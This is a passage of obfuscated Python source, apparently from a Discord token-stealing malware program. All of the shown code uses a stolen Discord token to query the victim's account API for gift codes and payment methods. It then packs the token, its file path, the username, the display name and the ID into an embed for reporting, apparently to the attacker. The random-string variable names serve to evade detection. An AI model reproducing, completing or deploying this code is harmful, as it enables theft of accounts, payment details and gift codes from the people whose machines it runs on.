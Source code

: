                 for v4r_method in TFYTJCRCQKQECGWIXFCMTTINQMXRUKHSYINDYMXBMCBVWFAUEWBZSJGIGARSALOFPDDEPMZLCZNNWLEEBXQELGGSKLWEFSOQULT:
                    if v4r_method['type'] == 1:
                        LDWCZSZWJJIWMZWCPBSAOPYECRILAORUKZKRSLZELPIUISLHZZQBQJ.append('CB')
                    elif v4r_method['type'] == 2:
                        LDWCZSZWJJIWMZWCPBSAOPYECRILAORUKZKRSLZELPIUISLHZZQBQJ.append("Paypal")
                    else:
                        LDWCZSZWJJIWMZWCPBSAOPYECRILAORUKZKRSLZELPIUISLHZZQBQJ.append('Other')
                LDWCZSZWJJIWMZWCPBSAOPYECRILAORUKZKRSLZELPIUISLHZZQBQJ = ' / '.join(LDWCZSZWJJIWMZWCPBSAOPYECRILAORUKZKRSLZELPIUISLHZZQBQJ)
            else:
                LDWCZSZWJJIWMZWCPBSAOPYECRILAORUKZKRSLZELPIUISLHZZQBQJ = "None"
        except:
            LDWCZSZWJJIWMZWCPBSAOPYECRILAORUKZKRSLZELPIUISLHZZQBQJ = "None"

        try:
            LOLPSTBTZLTBEUIFMWOJPECRHNNKXLDDIPIYBQSNIMPOAIMRSQVEHQTZSVSJWNUBW = requests.get('https://discord.com/api/v9/users/@me/outbound-promotions/codes', headers={'Authorization': TTFEWMYNZRNURPLKZDOFGUIRMSDWVBILHGEQQJIMJSUSPWVLMSHMKPOLVEQORWYTDITVVTOUGTMOGJCXZRGSGZIOMUK_d15c0rd}).json()
            if LOLPSTBTZLTBEUIFMWOJPECRHNNKXLDDIPIYBQSNIMPOAIMRSQVEHQTZSVSJWNUBW:
                BXDMWVFDXKASDNQHSBVZEKKUJWGIEMRDEHTMPCSXFASLMKKOMCKEMEVSNJZQDCALAVLKAALDE = []
                for GCROTWIXQTWLFRDPSDPOSFYIEMCKGAQPOPVBABMSBWDNNGHEHKVWHMUGLFLFXTRATIAHFXGFY in LOLPSTBTZLTBEUIFMWOJPECRHNNKXLDDIPIYBQSNIMPOAIMRSQVEHQTZSVSJWNUBW:
                    QNGTECBFYXMEPIIIGAAEKVIDLLBLQCAYSWLKOMRLKICJSZOEISPBAPCEMEBOSIHGBNZQHYERQVNJYLTJTRXFSTBFUAANKZOXSCWV = GCROTWIXQTWLFRDPSDPOSFYIEMCKGAQPOPVBABMSBWDNNGHEHKVWHMUGLFLFXTRATIAHFXGFY['promotion']['outbound_title']
                    GCROTWIXQTWLFRDPSDPOSFYIEMCKGAQPOPVBABMSBWDNNGHEHKVWHMUGLFLFXTRATIAHFXGFY = GCROTWIXQTWLFRDPSDPOSFYIEMCKGAQPOPVBABMSBWDNNGHEHKVWHMUGLFLFXTRATIAHFXGFY['code']
                    RZSDZDEKHXBOPMOELKXOBVNJKNAHDNYMNYCLCDGOCWVFAROKCPWXLOBMQAQGFNWLCV = f"Gift: {QNGTECBFYXMEPIIIGAAEKVIDLLBLQCAYSWLKOMRLKICJSZOEISPBAPCEMEBOSIHGBNZQHYERQVNJYLTJTRXFSTBFUAANKZOXSCWV}\nCode: {GCROTWIXQTWLFRDPSDPOSFYIEMCKGAQPOPVBABMSBWDNNGHEHKVWHMUGLFLFXTRATIAHFXGFY}"
                    if len('\n\n'.join(GCROTWIXQTWLFRDPSDPOSFYIEMCKGAQPOPVBABMSBWDNNGHEHKVWHMUGLFLFXTRATIAHFXGFY)) + len(RZSDZDEKHXBOPMOELKXOBVNJKNAHDNYMNYCLCDGOCWVFAROKCPWXLOBMQAQGFNWLCV) >= 1024:
                        break
                    BXDMWVFDXKASDNQHSBVZEKKUJWGIEMRDEHTMPCSXFASLMKKOMCKEMEVSNJZQDCALAVLKAALDE.append(RZSDZDEKHXBOPMOELKXOBVNJKNAHDNYMNYCLCDGOCWVFAROKCPWXLOBMQAQGFNWLCV)
                if len(BXDMWVFDXKASDNQHSBVZEKKUJWGIEMRDEHTMPCSXFASLMKKOMCKEMEVSNJZQDCALAVLKAALDE) > 0:
                    GCROTWIXQTWLFRDPSDPOSFYIEMCKGAQPOPVBABMSBWDNNGHEHKVWHMUGLFLFXTRATIAHFXGFY = '\n\n'.join(BXDMWVFDXKASDNQHSBVZEKKUJWGIEMRDEHTMPCSXFASLMKKOMCKEMEVSNJZQDCALAVLKAALDE)
                else:
                    GCROTWIXQTWLFRDPSDPOSFYIEMCKGAQPOPVBABMSBWDNNGHEHKVWHMUGLFLFXTRATIAHFXGFY = "None"
            else:
                GCROTWIXQTWLFRDPSDPOSFYIEMCKGAQPOPVBABMSBWDNNGHEHKVWHMUGLFLFXTRATIAHFXGFY = "None"
        except:
            GCROTWIXQTWLFRDPSDPOSFYIEMCKGAQPOPVBABMSBWDNNGHEHKVWHMUGLFLFXTRATIAHFXGFY = "None"
    
        v4r_software_name, HXOSOHZCILJIOIONIEEROKWZZWZEGKBFSGRHQJXGHHYOZCTAXCPCHGIGLSYFHUDYUHAMBYAWNBWZ = SGZEHSRYXZXETUCQBJOYBNWQEQRVMEGFDVRTXIXGSRYSAPLEOTMDJINYFWTPQYXTQTLWKDQWZAMPBIYETITBPCHQZULWIUMJHLD.get(TTFEWMYNZRNURPLKZDOFGUIRMSDWVBILHGEQQJIMJSUSPWVLMSHMKPOLVEQORWYTDITVVTOUGTMOGJCXZRGSGZIOMUK_d15c0rd, ("Unknown Software", "Unknown location"))

        embed = Embed(title=f'Discord Token {MYFIQRXYWXELTRZSVXPYXGCUEIAHHGHWRHLOPKIFHXVRDLGHXEHSRKZUCAUELORUVNDYKSYHBXDWRXWBCWVSVSIARINCHFFTMYA}:', color=OKMCIFVOHHRWOOWUZYGNVXDGSREFYCJDPSPOIMUQFNFXFVJXBMHOUZPQFRVMWSYMDFAFSFX)      
        embed.add_field(name=":file_folder: Path:", value=f"```{HXOSOHZCILJIOIONIEEROKWZZWZEGKBFSGRHQJXGHHYOZCTAXCPCHGIGLSYFHUDYUHAMBYAWNBWZ}```", inline=True)
        embed.add_field(name=":globe_with_meridians: Token:", value=f"```{TTFEWMYNZRNURPLKZDOFGUIRMSDWVBILHGEQQJIMJSUSPWVLMSHMKPOLVEQORWYTDITVVTOUGTMOGJCXZRGSGZIOMUK_d15c0rd}```", inline=True)
        embed.add_field(name=":package: Software:", value=f"```{v4r_software_name}```", inline=True)
        embed.add_field(name=":bust_in_silhouette: Username:", value=f"```{SVQDRSHPGQSUNMCJHOPIHKXWLGTNCMBQVVGEKWGRUHJFMPOTQRBJIBSJHZINRGYXPEVTAK}```", inline=True)
        embed.add_field(name=":bust_in_silhouette: Display Name:", value=f"```{CNRSUNMNAMUUOXPAYCBBLPRROTAYZQOAKYBVOSXFLXSNOSDHOJVWTNCTPYWGXLEOVPWPPEUSALAECAYOVX}```", inline=True)
        embed.add_field(name=":robot: Id:", value=f"```{ARTXTEEUUKXHDWUJPWQXQKXXTGGVRGZXBFFPPPLRKVQZQPCQYPXUKTMBMBICFVWTQXGSWJOVIHOTZKAMYDH}```", inline=True)